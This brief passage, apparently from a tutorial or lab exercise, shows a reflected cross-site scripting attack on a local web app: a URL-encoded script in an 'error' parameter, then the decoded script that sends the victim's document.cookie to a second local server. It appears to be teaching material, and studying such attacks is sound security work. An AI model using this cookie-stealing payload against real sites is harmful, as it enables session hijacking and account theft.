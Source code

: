 Visit the url:

    http://localhost:8080?error=%3Cscript+type%3D%22text%2Fjavascript%22%3E%0A++++document.location%3D'http%3A%2F%2Flocalhost%3A8000%2F%3Fcookie_data%3D'%2Bdocument.cookie%3B%0A%3C%2Fscript%3E

The error parameter is formed by url encoding the following script:

    <script type="text/javascript">
        document.location='http://localhost:8000/?cookie_data='+document.cookie;
    </script>


